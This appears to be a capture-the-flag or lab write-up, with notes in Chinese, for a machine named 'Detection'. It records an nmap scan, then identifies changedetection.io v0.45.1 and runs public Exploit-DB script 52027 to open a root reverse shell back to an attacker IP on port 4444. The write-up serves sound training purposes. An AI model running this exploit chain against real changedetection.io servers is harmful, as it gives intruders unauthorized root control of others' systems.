

# Detection

### Nmap Scanning
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A -p- 192.168.167.97           

Starting Nmap 7.94 ( https://nmap.org ) at 2024-12-18 16:43 CST
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 28.76% done; ETC: 16:45 (0:01:07 remaining)
Stats: 0:01:32 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 16:46 (0:00:38 remaining)
Nmap scan report for 192.168.167.97
Host is up (0.077s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 22903
|     Vary: Accept-Encoding, Cookie
|     Set-Cookie: session=eyJjc3JmX3Rva2VuIjoiZjQ2ZGFiNmFmOGIxMGZmYTAxMDgzMzZmZDM1MjNlZGEzYzU2ZjMyZCJ9.Z2KLhA.4nMnvJy08L-sQ-3mVIpM8BotgsA; HttpOnly; Path=/
|     Date: Wed, 18 Dec 2024 08:44:52 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en" data-darkmode="false">
|     <head>
|     <meta charset="utf-8" >
|     <meta name="viewport" content="width=device-width, initial-scale=1.0" >
|     <meta name="description" content="Self hosted website change detection." >
|     <title>Change Detection</title>
|     <link rel="alternate" type="application/rss+xml" title="Changedetection.io 
|     Feed" href="/rss?tag=&amp;token=766c79a538cb617cfcf10f946ff18b94" >
|     <link rel="stylesheet" href="/static/styles/pure-min.css" >
|     <link rel="stylesheet" href="/static/styles/styles.css" >
|     <link rel=
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94%I=7%D=12/18%Time=67628B84%P=aarch64-unknown-linux-g
SF:nu%r(GetRequest,16F0,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/h
SF:tml;\x20charset=utf-8\r\nContent-Length:\x2022903\r\nVary:\x20Accept-En
SF:coding,\x20Cookie\r\nSet-Cookie:\x20session=eyJjc3JmX3Rva2VuIjoiZjQ2ZGF
SF:iNmFmOGIxMGZmYTAxMDgzMzZmZDM1MjNlZGEzYzU2ZjMyZCJ9\.Z2KLhA\.4nMnvJy08L-s
SF:Q-3mVIpM8BotgsA;\x20HttpOnly;\x20Path=/\r\nDate:\x20Wed,\x2018\x20Dec\x
SF:202024\x2008:44:52\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20h
SF:tml>\n<html\x20lang=\"en\"\x20data-darkmode=\"false\">\n\n\x20\x20<head
SF:>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\"\x20>\n\x20\x20\x20\x20<me
SF:ta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sca
SF:le=1\.0\"\x20>\n\x20\x20\x20\x20<meta\x20name=\"description\"\x20conten
SF:t=\"Self\x20hosted\x20website\x20change\x20detection\.\"\x20>\n\x20\x20
SF:\x20\x20<title>Change\x20Detection</title>\n\x20\x20\x20\x20<link\x20re
SF:l=\"alternate\"\x20type=\"application/rss\+xml\"\x20title=\"Changedetec
SF:tion\.io\x20\xc2\xbb\x20Feed\"\x20href=\"/rss\?tag=&amp;token=766c79a53
SF:8cb617cfcf10f946ff18b94\"\x20>\n\x20\x20\x20\x20<link\x20rel=\"styleshe
SF:et\"\x20href=\"/static/styles/pure-min\.css\"\x20>\n\x20\x20\x20\x20<li
SF:nk\x20rel=\"stylesheet\"\x20href=\"/static/styles/styles\.css\"\x20>\n\
SF:x20\x20\x20\x20\n\n\x20\x20\x20\x20<link\x20rel=")%r(RTSPRequest,1F4,"<
SF:!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd
SF:\">\n<html>\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<m
SF:eta\x20http-equiv=\"Content-Type\"\x20content=\"text/html;charset=utf-8
SF:\">\n\x20\x20\x20\x20\x20\x20\x20\x20<title>Error\x20response</title>\n
SF:\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<h1>Error\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<
SF:p>Error\x20code:\x20400</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message
SF::\x20Bad\x20request\x20version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x
SF:20\x20\x20\x20\x20<p>Error\x20code\x20explanation:\x20HTTPStatus\.BAD_R
SF:EQUEST\x20-\x20Bad\x20request\x20syntax\x20or\x20unsupported\x20method\
SF:.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.18 seconds
```

### Go website on port 5000

網頁右上角可以看到版號 v0.45.1

使用 searchsploit 查詢一下，順利找到 exploit，使用後就可以直接拿到 root 的 shell（用法要研究下，啟動攻擊後，要再去站台儲存偵測到的 website 才能有效觸發 reverse shell）
```
┌──(kali㉿kali)-[~]
└─$ searchsploit changedetection
---------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                          |  Path
---------------------------------------------------------------------------------------- ---------------------------------
changedetection < 0.45.20 - Remote Code Execution (RCE)                                 | multiple/webapps/52027.py
---------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ searchsploit -m 52027       
  Exploit: changedetection < 0.45.20 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/52027
     Path: /usr/share/exploitdb/exploits/multiple/webapps/52027.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/52027.py

┌──(kali㉿kali)-[~]
└─$ python 52027.py --url http://192.168.167.97:5000 --port 4444 --ip 192.168.45.155
Obtained CSRF token: IjdmMmQ5M2JmMmNiODQwMTNhZGYwODQxNWYwNTM1Y2QxNWE3ZDQzMzIi.Z2KQ5w.UlNSnhJisVAJpqQ8o0tGPuZB3bE
Redirect URL: /edit/03128e61-4956-4a44-ba43-b4fd3ea50454?unpause_on_save=1
Final request made.
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:192.168.167.97 on port 53862
Listening on port 4444...
Connection received!
[*] Switching to interactive mode
root@detection:/# $ cat /root/pr*

```
